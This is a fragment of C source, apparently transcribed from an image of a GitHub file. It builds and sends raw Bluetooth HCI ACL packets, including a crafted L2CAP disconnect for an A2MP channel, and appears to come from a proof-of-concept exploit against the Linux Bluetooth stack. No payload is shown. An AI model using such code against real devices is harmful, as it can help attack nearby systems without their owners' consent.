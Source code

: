       return hci_sock;
    }

    static void wait_event_complete_packet(void) {
      while (1) {
        uint8_t buf[256] = {0};
        if (read(hci_sock, buf, sizeof(buf)) < 0) {
          perror("[-] read");
          exit(1);
        }
        if (buf[0] == HCI_EVENT_PKT) {
          hci_event_hdr *hdr = (hci_event_hdr *)&buf[1];
          if (btohs(hdr->evt) == EVT_NUM_COMP_PKTS)
            break;
        }
      }
    }

    static void hci_send_acl_data(int hci_sock, uint16_t hci_handle, void *data,
                                  uint16_t data_length, uint16_t flags) {
      uint8_t type = HCI_ACLDATA_PKT;

      hci_acl_hdr hdr = {0};
      hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
      hdr.dlen = data_length;

      struct iovec iv[3] = {0};
      iv[0].iov_base = &type;
      iv[0].iov_len = sizeof(type);
      iv[1].iov_base = &hdr;
      iv[1].iov_len = HCI_ACL_HDR_SIZE;
      iv[2].iov_base = data;
      iv[2].iov_len = data_length;
      if (writev(hci_sock, iv, sizeof(iv) / sizeof(struct iovec)) < 0) {
        perror("[-] writev");
        exit(1);
      }

      usleep(HCI_SEND_ACL_DATA_WAIT_USEC);
      wait_event_complete_packet();
    }

    static void disconnect_a2mp(void) {
      printf("[*] Disconnecting A2MP channel...\n");

      struct {
        l2cap_hdr hdr;
        l2cap_cmd_hdr cmd_hdr;
        l2cap_disconn_req disconn_req;
      } disconn_req = {0};
      disconn_req.hdr.len = htobs(sizeof(disconn_req) - L2CAP_HDR_SIZE);
      disconn_req.hdr.cid = htobs(SIGNALLING_CID);
      disconn_req.cmd_hdr.code = L2CAP_DISCONN_REQ;
      disconn_req.cmd_hdr.ident = L2CAP_IDENT;
      disconn_req.cmd_hdr.len =
          htobs(sizeof(disconn_req) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
      disconn_req.disconn_req.dcid = htobs(AMP_MGR_CID);
      disconn_req.disconn_req.scid = htobs(AMP_MGR_CID);
      hci_send_acl_data(hci_sock, hci_handle, &disconn_req, sizeof(disconn_req), 2);
    }
